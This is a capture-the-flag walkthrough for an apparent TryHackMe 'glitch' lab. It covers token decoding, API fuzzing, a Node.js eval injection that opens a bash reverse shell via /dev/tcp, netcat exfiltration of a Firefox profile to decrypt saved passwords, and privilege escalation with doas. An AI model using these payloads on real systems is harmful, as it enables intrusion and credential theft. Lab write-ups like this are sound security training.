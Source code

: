 1) Wait about 5 minutes until the 'error 502' disappears and the page loads.

2) Open the `development tools` and open the  tag script`.

3) From the code below:

```

      function getAccess () {
        fetch ('/ api / ac ** ss')          <---------------------
          .then ((response) => response.json ())
          .then ((response) => {
            console.log (response);
          });
      }
    
```

We have endpoint to `first api`

4) We attach to the link `/api/ac ** ss` and the encoded  `token` appears:

```dGhpc **** 3RfcmVhbA ==```

5) You will immediately notice that the sequence looks familiar it is `base64`.

Go to, for example, this page: (base64decode.org/)[base64_decode]

We enter  `encoded token` and get `decoded`:

```this_is _ * _ **```

6) Go back to the `main page` and go to the` development tools`.

We go to the `Cookies` tab and see the `token` set to the value of `value`, double click on it and change the value to `decoded token`.

After all this 'refresh the page' (f5)

7) Another page appears, go to the `debugger` tab.

On the left panel, open the `js` tab and click on the` script.js` file

```
  const container = document.getElementById ('items');
  await fetch ('/api/**')                               <------------------------
    .then ((response) => response.json ())
    .then ((response) => {
      response.sins.forEach ((element) => {

```

From the above code we can see another endpoint to the `next API`.

8) We append it to our `link` and intercept the `request` with e.g. the `burp` program in my example.

9) We do `send to reapeater` and we do` send`.

If unsuccessful `remove` from` Header request`:

```
    If-None-Match: W / "a9-0aR6bAfiK / DB + ***"

```

And everything should be working by now.

10) We check what queries the API `allows`.

We change `GET` to` OPTIONS`

```OPTIONS /api/i * HTTP / 1.1```

11) We see that we can do the following in this endpoint:

```GET, HEAD, POST```

12) We check possible parameters:

```wfuzz -c -z file, /usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

We see an eval function that should give us a lot to think about:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) We are interested in `POST`. We are looking for `NodeJs RCE eval` on the internet.

I used this site: (https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)[site]

There I have noticed the `exploit` it will use.

14) We change in `burp` parameter to `post` and add `?cmd=` and attach `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP / 1.1
```

In the terminal, enter `nc -lvpn <PORT>`

And click `send`. We should have accessed the user `user`.

15) We go to the `/home/user` directory and see the `first flag`.

16) After cat the flag (`cat <file>`) we show all the files in the directory `ls -la`.

We may notice the hidden `.firefox` directory. We enter it `cd .firefox`.

We see what looks like the session directory `b5w4643p.default-release`.

17) We download to our machine: (https://github.com/unode/firefox_decrypt)[Firefox_decrypt]

We pack sessions from the server `tar -cf archive.tar ./b*`.

Using (https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)[netcat] we send the file to our computer.

On our computer, type: `nc -l -p 1234> ./archive.tar`.

And on the server: `nc -w 3 <IP> 1234 < ./archive.tar`.

18) Then with `firefox_decrypt` we decrypt the password to the user `v0id`:

```./firefox_decrypt.py ./( PATH TO DIRECTORY) b5w4643p.default-release```


After a while it appears to us:

```

    Website: https: //glitch.thm
    Username: 'v0id'
    Password: 'love_ *'


```

19) We switch to user `v0id` with `su v0id`.

If you see: `su: must be run from a terminal`. Enter: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. And then we try again.

20) With the command `doas` we increase our privileges to the user `root`.

```doas -u root  /bin/bash```

21) We go to the `/root` directory and get the `last flag`.